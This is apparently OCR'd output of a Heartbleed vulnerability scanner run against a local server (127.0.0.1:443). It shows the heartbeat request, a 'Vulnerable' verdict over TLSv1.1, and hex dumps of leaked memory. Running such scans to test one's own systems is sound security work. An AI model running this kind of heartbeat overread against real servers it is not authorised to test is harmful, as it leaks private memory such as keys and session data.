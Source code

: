 ```bash
  0060: 1B 00 1C 00 1D 00 1E 00 1F 00 20 00 21 00 22 00  .......... .!.".
  0070: 23 00 24 00 25 00 26 00 27 00 28 00 29 00 2A 00  #.$.%.&.'.(.).*.
  0080: 2B 00 2C 00 2D 00 2E 00 2F 00 30 00 31 00 32 00  +.,.-.../.0.1.2.
  0090: 33 00 34 00 35 00 36 00 37 00 38 00 39 00 3A 00  3.4.5.6.7.8.9.:.
  00a0: 3B 00 3C 00 3D 00 3E 00 3F 00 40 00 41 00 42 00  ;.<.=.>.?.@.A.B.
  00b0: 43 00 44 00 45 00 46 00 60 00 61 00 62 00 63 00  C.D.E.F.`.a.b.c.
  00c0: 64 00 65 00 66 00 67 00 68 00 69 00 6A 00 6B 00  d.e.f.g.h.i.j.k.
  00d0: 6C 00 6D 00 80 00 81 00 82 00 83 00 84 00 85 00  l.m.............
  01a0: 20 C0 21 C0 22 C0 23 C0 24 C0 25 C0 26 C0 27 C0   .!.".#.$.%.&.'.
  01b0: 28 C0 29 C0 2A C0 2B C0 2C C0 2D C0 2E C0 2F C0  (.).*.+.,.-.../.
  01c0: 30 C0 31 C0 32 C0 33 C0 34 C0 35 C0 36 C0 37 C0  0.1.2.3.4.5.6.7.
  01d0: 38 C0 39 C0 3A C0 3B C0 3C C0 3D C0 3E C0 3F C0  8.9.:.;.<.=.>.?.
  01e0: 40 C0 41 C0 42 C0 43 C0 44 C0 45 C0 46 C0 47 C0  @.A.B.C.D.E.F.G.
  01f0: 48 C0 49 C0 4A C0 4B C0 4C C0 4D C0 4E C0 4F C0  H.I.J.K.L.M.N.O.
  0200: 50 C0 51 C0 52 C0 53 C0 54 C0 55 C0 56 C0 57 C0  P.Q.R.S.T.U.V.W.
  0210: 58 C0 59 C0 5A C0 5B C0 5C C0 5D C0 5E C0 5F C0  X.Y.Z.[.\.].^._.
  0220: 60 C0 61 C0 62 C0 63 C0 64 C0 65 C0 66 C0 67 C0  `.a.b.c.d.e.f.g.
  0230: 68 C0 69 C0 6A C0 6B C0 6C C0 6D C0 6E C0 6F C0  h.i.j.k.l.m.n.o.
  0240: 70 C0 71 C0 72 C0 73 C0 74 C0 75 C0 76 C0 77 C0  p.q.r.s.t.u.v.w.
  0250: 78 C0 79 C0 7A C0 7B C0 7C C0 7D C0 7E C0 7F C0  x.y.z.{.|.}.~...
  02c0: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  02d0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  0300: 10 00 11 00 23 00 00 00 0F 00 01 01 00 00 00 00  ....#...........
  0bd0: 00 00 00 00 00 00 00 00 00 12 7D 01 00 10 00 02  ..........}.....

[-] Closing connection

[-] Connecting to 127.0.0.1:443 using TLSv1.1
[-] Sending ClientHello
[-] ServerHello received
[-] Sending Heartbeat
[Vulnerable] Heartbeat response was 16384 bytes instead of 3! 127.0.0.1:443 is vulnerable over TLSv1.1
[-] Displaying response (lines consisting entirely of null bytes are removed):

  0000: 02 FF FF 08 03 02 53 48 73 F0 7C CA C1 D9 02 04  ......SHs.|.....
  0010: F2 1D 2D 49 F5 12 BF 40 1B 94 D9 93 E4 C4 F4 F0  ..-I...@........
  0020: D0 42 CD 44 A2 59 00 02 96 00 00 00 01 00 02 00  .B.D.Y..........
  0060: 1B 00 1C 00 1D 00 1E 00 1F 00 20 00 21 00 22 00  .......... .!.".
  0070: 23 00 24 00 25 00 26 00 27 00 28 00 29 00 2A 00  #.$.%.&.'.(.).*.
  0080: 2B 00 2C 00 2D 00 2E 00 2F 00 30 00 31 00 32 00  +.,.-.../.0.1.2.
  0090: 33 00 34 00 35 00 36 00 37 00 38 00 39 00 3A 00  3.4.5.6.7.8.9.:.
  00a0: 3B 00 3C 00 3D 00 3E 00 3F 00 40 00 41 00 42 00  ;.<.=.>.?.@.A.B.
  00b0: 43 00 44 00 45 00 46 00 60 00 61 00 62 00 63 00  C.D.E.F.`.a.b.c.
  00c0: 64 00 65 00 66 00 67 00 68 00 69 00 6A 00 6B 00  d.e.f.g.h.i.j.k.
  00d0: 6C 00 6D 00 80 00 81 00 82 00 83 00 84 00 85 00  l.m.............
  01a0: 20 C0 21 C0 22 C0 23 C0 24 C0 25 C0 26 C0 27 C0   .!.".#.$.%.&.'.
  01b0: 28 C0 29 C0 2A C0 2B C0 2C C0 2D C0 2E C0 2F C0  (.).*.+.,.-.../.
  01c0: 30 C0 31 C0 32 C0 33 C0 34 C0 35 C0 36 C0 37 C0  0.1.2.3.4.5.6.7.
  01d0: 38 C0 39 C0 3A C0 3B C0 3C C0 3D C0 3E C0 3F C0  8.9.:.;.<.=.>.?.
  01e0: 40 C0 41 C0 42 C0 43 C0 44 C0 45 C0 46 C0 47 C0  @.A.B.C.D.E.F.G.
  01f0: 48 C0 49 C0 4A C0 4B C0 4C C0 4D C0 4E C0 4F C0  H.I.J.K.L.M.N.O.
  0200: 50 C0 51 C0 52 C0 53 C0 54 C0 55 C0 56 C0 57 C0  P.Q.R.S.T.U.V.W.
  0210: 58 C0 59 C0 5A C0 5B C0 5C C0 5D C0 5E C0 5F C0  X.Y.Z.[.\.].^._.
  0220: 60 C0 61 C0 62 C0 63 C0 64 C0 65 C0 66 C0 67 C0  `.a.b.c.d.e.f.g.
  0230: 68 C0 69 C0 6A C0 6B C0 6C C0 6D C0 6E C0 6F C0  h.i.j.k.l.m.n.o.
  0240: 70 C0 71 C0 72 C0 73 C0 74 C0 75 C0 76 C0 77 C0  p.q.r.s.t.u.v.w.
  0250: 78 C0 79 C0 7A C0 7B C0 7C C0 7D C0 7E C0 7F C0  x.y.z.{.|.}.~...
  02c0: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  02d0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  0300: 10 00 11 00 23 00 00 00 0F 00 01 01 00 00 00 00  ....#...........
  0bd0: 00 00 00 00 00 00 00 00 00 12 7D 01 00 10 00 02  ..........}.....

```